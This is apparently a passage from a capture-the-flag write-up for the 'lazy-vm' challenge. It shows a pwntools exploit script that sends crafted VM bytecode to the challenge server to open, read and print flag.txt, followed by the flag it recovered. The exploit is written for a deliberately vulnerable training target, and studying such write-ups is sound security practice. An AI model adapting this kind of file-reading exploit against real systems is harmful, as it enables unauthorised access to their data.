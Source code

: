```python
payload += b'\x01\x02\x02\x00' + b'\x01\x00\x02\x01' + b'\x08' # $R0 = fd = open("flag.txt")

#           Set R3 to 0x64 and execute syscall
payload += b'\x01\x64\x02\x03i\x08i' # read(fd=0, mem=0, numbytes=64)

#            Set R0 to 1            Set R1 = fd = 1     Use prev args (mem=0, numbytes=0x64) and execute syscall
payload += b'\x01\x01\x02\x00' + b'\x01\x01\x02\x01' + b'\x08' # write(fd = 1, mem=0, numbytes=64) dumps entire memory

p = remote('lazy-vm.chal.idek.team', 1337)
p.send(payload)
p.interactive()
```

Running this we get our flag `idek{Th15_I$_thE_L@Z13$t_vM_i_h4vE_EvEr_5EEN}`
